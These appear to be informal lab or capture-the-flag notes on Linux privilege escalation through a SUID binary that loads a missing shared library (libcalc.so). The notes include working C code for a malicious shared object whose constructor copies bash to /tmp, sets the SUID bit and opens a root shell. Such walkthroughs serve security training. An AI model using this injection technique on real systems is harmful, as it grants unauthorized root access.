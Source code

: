 if we see 
` root     staff        9861 May 14  2017 /usr/local/bin/suid-so`

SUID and SGID for are highlighted 

if we run the SUID we do not know what is happening so we use strings we can se there is no file present as config


![](/images/suid.png)
we can override libcalc.so add something malicious 

Code Below 
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));

void inject(){

   system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");


}



like below 

![](/images/shared_object.png)
